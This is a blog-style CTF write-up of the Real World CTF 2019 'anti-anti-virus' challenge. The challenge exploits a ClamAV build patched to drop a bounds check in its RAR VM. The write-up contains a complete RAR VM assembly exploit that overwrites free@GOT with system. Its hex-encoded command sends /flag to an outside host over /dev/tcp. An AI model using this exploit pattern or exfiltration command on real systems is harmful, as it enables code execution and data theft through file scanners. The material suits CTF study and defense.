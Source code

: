 ## Real World CTF 2019

This year's real world CTF was really awesome. It had several improvements from last year. (challenges had more directions and hints, crypto and reverse challenges introduced) I spent a lot of time on Fuchsia IPC reversing (`cai-dan-ti-1`) and peeking at recent PHP commit logs (`MoP`) but I coudldn't solve any of them, which is sad. I managed to solve only one challenge, `anti-anti-virus`. Here is my write-up.

Also, just in case you're curious the pwnables that came out were based on the following topics:<br>
<1> cai-dan-ti (1,2): Reversing-Shellcoding-Pwning on Google Fuchsia<br>
<2> Dezhou Instruments: Pwning an iPhone application<br>
<3> MoP: exploiting a PHP memory corruption bug to bypass `base_dir` and `disable_function` to achieve full RCE.<br>
<4> Across the Great Wall: exploiting a userland proxy<br>
<5> faX senDeR: some userland pwanble related to XDR, I don't really know much<br>
<6> accessible & appetizer: Browser exploitation challenges<br>


## Analysis
We are given a lot of shared library files, two binaries (`clamscan` and `clamdscan`), a readme and a patch.diff file. The readme states that the two binaries were built on version commit ID `6c11e824a794770c469f3a46141d5ea7927b6ea6`, and applied the given patch.diff file. We can actually build clam ourselves, by doing 
```bash
git clone https://github.com/Cisco-Talos/clamav-devel
git reset --hard 6c11e824a794770c469f3a46141d5ea7927b6ea6
apply -s -p1 < ../patch.diff
```

ClamAV is an open source virus scanner. What we should do is to get full RCE when ClamAV is given a file to scan. At first I thought the challenge would be really hard, because the clamscan binary had all protections (PIE, NX, Full RELRO, FORTIFY) enabled and we need to get a reverse shell (the server does not show any output, and leaking the flag bit by bit via time-based approach is not possible due to PoW) without any interactions. It is hard to bypass ASLR in an interactionless-exploit unless the given primitive is really powerful. 

I took a look at the patch file, and spotted mainly two things.<br>
<1> Some structure members' size increased from 4 bytes to 8 bytes. Theoretically, this should not introduce any bugs, but I guess the intention was to make exploitation easier, since in 64bit userspace applications pointers are 8 bytes.<br>
<2> I spotted something that looks like a bounds check elimination. I guessed this is the root bug.<br>

All the patches were done on a file called rarvm.c. RAR is a file format for archiving data. How is VM (Virutal Machine) supposed to be related to it? At first I thought that it was a sandboxed executor for binaries inside the archived rar file. I started analyzing the source code but couldn't understand what rar vm really is. 

After getting some sleep, I google searched about RAR vm. It showed a very old [CVE](https://www.cvedetails.com/cve/CVE-2007-3725/) on ClamAV, which seemed kinda relevant. Also I spotted a [blogpost](http://blog.cmpxchg8b.com/2012/09/fun-with-constrained-programming.html) about rarVM. WTF? RAR has support for custom bytecode, and unrar'ing programs execute them? How surprising. 

I also found [this](https://github.com/taviso/rarvmtools) repository, which implemented a linker and assembler for rar files. I think it was super cool. I decided to use it when constructing my exploit.

Now, I get the point of the challenge: escape the implemented rar VM executor and get RCE

## Exploitation
The bounds check elimination in the patch is the following:
```
-		return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]);
+		/* return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]); */
+		return ((size_t *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) /*& RARVM_MEMMASK*/]);
```
Basically it is a piece of code that translates RAR VM memory addresses to real memory addresses. Originally. the RAR VM memory address was confined from range 0 ~ 0x3fffff. (RARVM_MEMMASK = 0x3fffff) However, the masking is eliminated, so we can access arbitrary addresses relative to `rarvm_data->mem`. With the help of a debugger, I found that mem points to an mmapped chunk address, so we can access all the libraries through it, since libraries are also loaded via mmap and have constant distances from mmapped chunks. My idea was to access the free@GOT of libunrar.so, read the lower 4 bytes, subtract an adequate value so that the 4 bytes are equal to the lower 4 bytes of system, and place those 4 bytes back at free@GOT.

Also, the `mem` pointer must be freed at some point, so I wrote code so that it places commands at the start of `mem`. The start of `mem` can be accessed by the VM address 0. I wrote a helper script, `encode_cmd.py` that generates an assembly code that does this. To prevent the commandline string from overwriting running code, I padded the start with a bunch of NOP sequences. Here is my full exploit.

```
#include <constants.rh>
#include <util.rh>
#include <math.rh>
#include <crctools.rh>

_start:
	; Install our message in the output buffer
	mov r3, #0x0
	add r3, #0x1622bff0 ; offset between unrar start and mmap chunk
	add r3, #0x20C018
	mov r4, [r3]
	sub r4, #296208
	mov [r3], r4 ; change free to system
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	
	mov [r3+#0], #0x6e69622f
	mov [r3+#4], #0x7361622f
	mov [r3+#8], #0x632d2068
	mov [r3+#12], #0x2f282220
	mov [r3+#16], #0x2f6e6962
	mov [r3+#20], #0x20746163
	mov [r3+#24], #0x616c662f
	mov [r3+#28], #0x202f2067
	mov [r3+#32], #0x31263e32
	mov [r3+#36], #0x203e2029
	mov [r3+#40], #0x7665642f
	mov [r3+#44], #0x7063742f
	mov [r3+#48], #0x322e312f
	mov [r3+#52], #0x352e3535
	mov [r3+#56], #0x33362e34
	mov [r3+#60], #0x3939392f
	mov [r3+#64], #0x2238
	call $_success
```

Now using rarvmtools, compile this assembly file (it feels weird to do `make paylaod.rar`!) and upload it. It sends the flag to my listening server.


